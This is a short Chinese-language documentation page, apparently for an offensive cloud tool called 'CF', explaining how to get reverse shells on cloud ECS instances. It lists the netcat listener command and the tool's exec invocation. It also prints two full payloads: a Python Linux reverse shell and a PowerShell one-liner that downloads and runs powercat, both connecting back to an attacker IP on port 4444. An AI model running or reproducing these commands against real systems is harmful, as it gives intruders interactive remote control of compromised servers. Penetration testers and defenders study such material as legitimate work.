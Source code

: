 ```yaml
---
title: 反弹 Shell
---
```


## 反弹 Shell

首先在自己的主机上开启监听

```bash
nc -lvvp 4444
```

接着在 CF 中执行反弹 Shell 命令

`--lhost` 参数配置为自己监听主机的 IP，`--lport` 参数配置为自己的监听端口，`-i` 设置要反弹 Shell 的实例 ID（如果不指定则默认是全部实例）

```bash
cf ecs exec --lhost 123.123.123.123 --lport 4444 -i i-abcdefghijklmn
```

在 CF 中使用的 Linux 反弹 Shell 如下

```bash
export RHOST="123.123.123.123";export RPORT=4444;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```

   <img width="800" src="/img/1656605535.png">

   <img width="650" src="/img/1656605596.png">

在 CF 中使用的 Windows 反弹 Shell 如下

```bash
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://ghproxy.com/raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 123.123.123.123 -p 4444 -e cmd
```

   <img width="850" src="/img/1656605944.png">

   <img width="650" src="/img/1656605897.png">

> 由于 CF 等待命令执行结果的默认时间是 60 秒，所以在超过 60 秒后，CF 会提示命令执行超时，从而退出程序。
>
> 因为反弹 Shell 需要命令保持一直处于执行状态，所以在上面的图片里可以看到提示命令执行超时。

<script>
export default {
    mounted () {
      this.$page.lastUpdated = "2022年6月30日"
    }
  }
</script>